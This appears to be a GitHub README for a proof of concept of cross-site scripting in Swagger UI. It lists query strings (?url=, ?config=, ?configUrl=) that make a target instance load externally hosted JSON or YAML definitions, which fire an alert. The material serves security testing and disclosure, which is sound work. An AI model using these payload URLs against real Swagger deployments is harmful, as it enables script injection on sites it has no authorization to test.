 ## Swagger UI XSS Proof of Concept

### Description

Swagger UI allows you to load externally sourced API definitions using the `?url=`, `?config=`, or `?configUrl=` parameters. When fields such as the description (`description`) in these definitions are processed without filtering HTML or JavaScript, an XSS (Cross-site Scripting) vulnerability may arise.

This PoC includes a minimal YAML and JSON file that triggers `alert(‘XSS-Found!’)` through the aforementioned vulnerability. By loading these files to Swagger UI instances intended for testing, XSS behavior can be observed.

---

### PoC Usage

Use the following query strings with a vulnerable Swagger UI path, such as:

`https://target-swagger.com/swagger/index.html?<QUERY>`

##### Example: 

`https://target-swagger.com/swagger/index.html?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json`

#### JSON-based PoC

`?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json`

`?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json`

`?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json`

#### YAML-based PoC

`?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml`

`?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml`

`?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml`


If the instance is vulnerable, the following will execute: alert("XSS-Found!")

---
For educational and authorized testing purposes only.
